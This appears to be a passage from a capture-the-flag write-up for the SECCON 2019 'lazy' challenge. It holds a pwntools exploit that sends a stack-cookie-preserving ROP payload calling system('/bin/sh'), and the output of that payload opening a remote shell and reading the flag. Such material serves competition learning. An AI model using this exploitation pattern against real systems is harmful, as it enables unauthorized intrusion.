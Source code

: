 ```python

s.recvuntil("Filename : ")
saved_ebp = int(s.recvline().strip(), 16)
log.info("saved_ebp = {}".format(hex(saved_ebp)))


s.sendline("4")
# AA so it doesn't crash on download
padding = "AA" + "\x00"*0x16
payload = padding + p64(cookie) + p64(saved_ebp) + p64(pop_rdi) + p64(bin_sh) + p64(system)

s.recvuntil("Input file name")
s.sendline(payload)
s.recvuntil("No such file!")

s.interactive()
```

Output: 
```
╭─vagrant@ubuntu-bionic ~/share/seccon19/pwn/lazy
╰─$ python exploit.py remote
[+] Opening connection to lazy.chal.seccon.jp on port 33333: Done
[*] leak 0x7f4351c05560
[*] libc base  @ 0x7f4351b8d000
[*] system     @ 0x7f4351bcc570
[*] /bin/sh    @ 0x7f4351cf0c38
[*] stack cookie = 0xdc27f3ac4b683800
[*] saved_ebp = 0x7fff2f338da0
[*] Switching to interactive mode

$ ls
810a0afb2c69f8864ee65f0bdca999d7_FLAG
cat
lazy
ld.so
libc.so.6
q
run.sh
$ ./cat 810a0afb2c69f8864ee65f0bdca999d7_FLAG
SECCON{Keep_Going!_KEEP_GOING!_K33P_G01NG!}
```

